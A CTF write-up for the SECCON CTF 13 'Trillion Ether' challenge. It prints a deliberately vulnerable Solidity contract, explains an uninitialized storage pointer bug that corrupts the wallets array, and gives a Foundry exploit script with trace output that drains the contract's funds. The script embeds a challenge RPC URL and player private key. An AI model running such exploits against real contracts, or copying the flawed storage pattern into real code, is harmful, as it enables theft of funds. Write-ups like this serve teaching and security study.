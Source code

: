 ```yaml
---
layout: post
title: "SECCON CTF 13 Quals Writeup"
categories: 
  - Writeup
  - blockchain
author: Songhyun Bae
---
```


I recently participated in the SECCON CTF 13 Qualifiers with my team, CyKor. I solved the “Trillion Ether” challenge in the blockchain category. I’m planning to write about it on my blog.


## **Trillion Ether**
> Get Chance!

Below is the code for the challenge. The contract allows the creation of wallets and includes `withdraw` and `transfer` functionalities. To solve the challenge, it is necessary to drain all the funds from the contract.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.28;

contract TrillionEther {
    struct Wallet {
        bytes32 name;
        uint256 balance;
        address owner;
    }

    Wallet[] public wallets;

    constructor() payable {
        require(msg.value == 1_000_000_000_000 ether);
    }

    function isSolved() external view returns (bool) {
        return address(this).balance == 0;
    }

    function createWallet(bytes32 name) external payable {
        wallets.push(_newWallet(name, msg.value, msg.sender));
    }

    function transfer(uint256 fromWalletId, uint256 toWalletId, uint256 amount) external {
        require(wallets[fromWalletId].owner == msg.sender, "not owner");
        wallets[fromWalletId].balance -= amount;
        wallets[toWalletId].balance += amount;
    }

    function withdraw(uint256 walletId, uint256 amount) external {
        require(wallets[walletId].owner == msg.sender, "not owner");
        wallets[walletId].balance -= amount;
        payable(wallets[walletId].owner).transfer(amount);
    }

    function _newWallet(bytes32 name, uint256 balance, address owner) internal returns (Wallet storage wallet) {
        wallet = wallet;
        wallet.name = name;
        wallet.balance = balance;
        wallet.owner = owner;
    }
}
```

The most apparent bug exists in the _newWallet function, where an uninitialized storage variables bug occurs. The wallet variable is declared as storage but is not properly initialized before assignment. Consequently, the data is written starting from storage slot 0.

```
function _newWallet(bytes32 name, uint256 balance, address owner) internal returns (Wallet storage wallet) {
    wallet = wallet;
    wallet.name = name;
    wallet.balance = balance;
    wallet.owner = owner;
}
```

In the TrillionEther contract, storage slot 0 holds the wallets array. Being a dynamic array, this slot stores the array’s length, and the actual elements are stored starting from keccak(0).

```
$ forge inspect TrillionEther storage-layout --pretty
| Name    | Type                          | Slot | Offset | Bytes | Contract                            |
|---------|-------------------------------|------|--------|-------|-------------------------------------|
| wallets | struct TrillionEther.Wallet[] | 0    | 0      | 32    | src/TrillionEther.sol:TrillionEther |
```

The wallets array consists of the Wallet struct, which occupies three storage slots for each element:
```
struct Wallet {
    bytes32 name;
    uint256 balance;
    address owner;
}

Wallet[] public wallets;
```

As a result, the storage slot for a new element in the array can be calculated using the formula: `keccak(0) + array length x 3`


By manipulating the array length in slot 0, we can cause an integer overflow during the multiplication step. This overflow allows us to overwrite the balance field of the Wallet struct with the owner address. By strategically creating wallets and controlling the overflow, we can target specific storage slots, overwrite critical data, and eventually drain all funds.

### Solution Script

Below is the exploit script that drains the contract:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {console} from "forge-std/console.sol";
import {Script} from "forge-std/Script.sol";

import {TrillionEther} from "../src/TrillionEther.sol";

contract solve is Script {
    uint256 playerPrivateKey;
    address player;

    TrillionEther problemInstance;

    function setUp() external {
        string memory rpcUrl = "http://trillion-ether.seccon.games:8545/fcf85a4f-6b2f-4f81-aef5-e966d043277f";
        playerPrivateKey = 0x6d9be7bb251e23e43ac737e9ce272c97d11eb2d8164b70fd92242a076eab0d30;
        address problemContract = 0x775e072738D978416d8bc7805B8Cf4f34C0Bf80F;

        player = vm.addr(playerPrivateKey);
        vm.createSelectFork(rpcUrl);

        problemInstance = TrillionEther(problemContract);
    }

    function run() external {
        vm.startBroadcast(playerPrivateKey);

        problemInstance.createWallet{value: 0}(bytes32(uint256(1))); 
        problemInstance.createWallet{value: 0}(bytes32(uint256(38597363079105398474523661669562635951089994888546854679819194669304376546646)));
        
        problemInstance.withdraw(1, address(problemInstance).balance);

        vm.stopBroadcast();
    }
}
```

```
$ forge script solve -vvvv --broadcast
[⠊] Compiling...
No files changed, compilation skipped
Traces:
  [156386] solve::run()
    ├─ [0] VM::startBroadcast(<pk>)
    │   └─ ← [Return] 
    ├─ [93340] 0x775e072738D978416d8bc7805B8Cf4f34C0Bf80F::createWallet(0x0000000000000000000000000000000000000000000000000000000000000001)
    │   └─ ← [Stop] 
    ├─ [43240] 0x775e072738D978416d8bc7805B8Cf4f34C0Bf80F::createWallet(0x5555555555555555555555555555555555555555555555555555555555555556)
    │   └─ ← [Stop] 
    ├─ [8328] 0x775e072738D978416d8bc7805B8Cf4f34C0Bf80F::withdraw(1, 1000000000000000000000000000000 [1e30])
    │   ├─ [0] 0x6B4df773CB9AdA0515BBC8F4eB9e57C18cE54152::fallback{value: 1000000000000000000000000000000}()
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [0] VM::stopBroadcast()
    │   └─ ← [Return] 
    └─ ← [Stop] 
```

